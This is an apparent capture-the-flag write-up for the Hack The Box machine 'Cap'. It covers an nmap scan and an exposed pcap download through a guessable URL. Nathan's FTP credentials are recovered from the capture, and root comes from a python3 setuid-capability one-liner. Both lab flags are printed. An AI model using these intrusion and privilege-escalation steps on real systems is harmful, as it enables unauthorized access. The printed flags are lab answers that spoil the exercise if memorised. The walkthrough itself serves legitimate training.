 ![](Images/E24iZ_yX0AMulP5.jpg)
What we can learn from this machine
* Enumeration
* Python3 Capabilities
* Wireshark

Always start with nmap scan. Let's see what we got in machine.
```
# Nmap 7.91 scan initiated Thu Jun 10 11:37:56 2021 as: nmap -sC -sV -oN Scans/nmap-output 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:20:18 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:20:12 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:20:13 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 10 11:40:21 2021 -- 1 IP address (1 host up) scanned in 145.03 seconds
```
Looks like we got port 21 ftp, 22 ssh, 80 http are open. Let's see what in the webpage.

![](Images/web.png)

After sometime poking around I found this.

![](Images/pcap.png)

When you first click It's no records shows us but we change the url bit backward. Like /data/5 -> /data/4 . You can see it changes but no captures yet. When I change into **/data/0** it gives me some captures. 

![](Images/download%20pcap.png)

After we download that pcap file. You can open it on wireshark and do look around. When I was looking I found this on **tcp stream eq 1**.

![](Images/input.png)

Looks he need enter the password. Let's see what we got in other packets maybe we can find our password among them. After some time in **tcp stream eq 3** I found the password and username.

![](Images/password.png)

Let's login to the FTP port let's see its working or not.

```bash
┌─[visith@parrot]─[~/CTF/htb/cap]
└──╼ $ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:visith): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 1001     1001       341117 Jun 10 05:54 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Jun 10 05:54 snap
-r--------    1 1001     1001           33 Jun 10 04:51 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (685.6715 kB/s)
ftp> exit
221 Goodbye.
```
We got our user key but we cant get to root through ftp let's try that **SSH** port with same credentials. 

```bash
─[✗]─[visith@parrot]─[~/CTF/htb/cap]
└──╼ $ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ECDSA key fingerprint is SHA256:8TaASv/TRhdOSeq3woLxOcKrIOtDhrZJVrrE0WbzjSc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ECDSA) to the list of known hosts.
nathan@10.10.10.245's password: 
Last login: Thu Jun 10 05:53:09 2021 from 10.10.14.76
nathan@cap:~$ ls -la
total 372
drwxr-xr-x 5 nathan nathan   4096 Jun 10 05:55 .
drwxr-xr-x 3 root   root     4096 May 23 19:17 ..
lrwxrwxrwx 1 root   root        9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r-- 1 nathan nathan    220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 nathan nathan   3771 Feb 25  2020 .bashrc
drwx------ 2 nathan nathan   4096 May 23 19:17 .cache
drwx------ 4 nathan nathan   4096 Jun 10 06:38 .gnupg
-rw-r--r-- 1 nathan nathan    807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root        9 May 27 09:16 .viminfo -> /dev/null
-rwxr-xr-x 1 nathan nathan 341117 Jun 10 05:54 linpeas.sh
drwxr-xr-x 3 nathan nathan   4096 Jun 10 05:54 snap
-r-------- 1 nathan nathan     33 Jun 10 04:51 user.txt
nathan@cap:~$ cat user.txt
ecae44311783c50b26a5691bf7bc687e
```
Here also you can get the user flag. I try to run **sudo -l** but we can't run sudo in here. Let's run the linpeas.sh. 
```bash
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ ./linpeas.sh
```
In linpeas output we can see this under the capabilities.

![](Images/python3.png)

Python3 can give us root. After searching in **GTFObins** I find this.

![](Images/gtfobins.png)

We have python3 we need to change the python version of our script. Like this :
```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
After we execute this script *usr/bin* directory. We can get our shell to root. 

```bash
nathan@cap:/usr/bin$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# /usr/bin/script -qc /bin/bash /dev/null
root@cap:/usr/bin# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
3de419c148d30fbff7975629a16e486e
root@cap:/root#
```
Thx for reading !!

![](../Armageddon/Images/giphy.gif)